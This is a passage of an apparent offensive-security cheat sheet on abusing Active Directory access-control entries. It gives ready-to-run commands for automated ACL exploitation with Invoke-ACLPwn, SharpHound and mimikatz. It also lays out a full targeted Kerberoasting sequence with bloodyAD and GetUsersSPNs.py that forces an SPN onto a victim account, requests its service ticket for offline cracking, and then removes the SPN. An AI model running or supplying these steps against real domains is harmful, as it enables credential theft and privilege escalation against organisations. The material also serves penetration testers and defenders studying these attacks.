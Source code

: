 # Active Directory - Access Controls ACL/ACE

An **Access Control Entry (ACE)** is a specific permission granted or denied to a user or group for a particular resource, such as a file or directory. Each ACE defines the type of access allowed (e.g., read, write, execute) or denied.

An **Access Control List (ACL)** is a collection of Access Control Entries (ACEs) associated with a resource.

* Check ACL for an User with [ADACLScanner](https://github.com/canix1/ADACLScanner).

 ```ps1
 ADACLScan.ps1 -Base "DC=contoso;DC=com" -Filter "(&(AdminCount=1))" -Scope subtree -EffectiveRightsPrincipal User1 -Output HTML -Show
 ```

* Automate ACL exploit [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn):

 ```ps1
 ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'user1' -Domain 'domain.local' -Password 'Welcome01!'
 ```

## GenericAll/GenericWrite

### User/Computer

We can set a **SPN** on a target account, request a Service Ticket (ST), then grab its hash and kerberoast it.

* Windows/Linux

  ```ps1
  # Check for interesting permissions on accounts:
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' get writable --otype USER --right WRITE --detail | egrep -i 'distinguishedName|servicePrincipalName'

  # Check if current user has already an SPN setted:
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' get object <UserName> --attr serviceprincipalname

  # Force set the SPN on the account: Targeted Kerberoasting
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' set object <UserName> serviceprincipalname -v 'ops/whatever1'

  # Grab the ticket
  GetUsersSPNs.py -dc-ip 10.10.10.10 'attack.lab/john.doe:Password123*' -request-user <UserName>

  # Remove the SPN
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' set object <UserName> serviceprincipalname
  ```

* Windows only
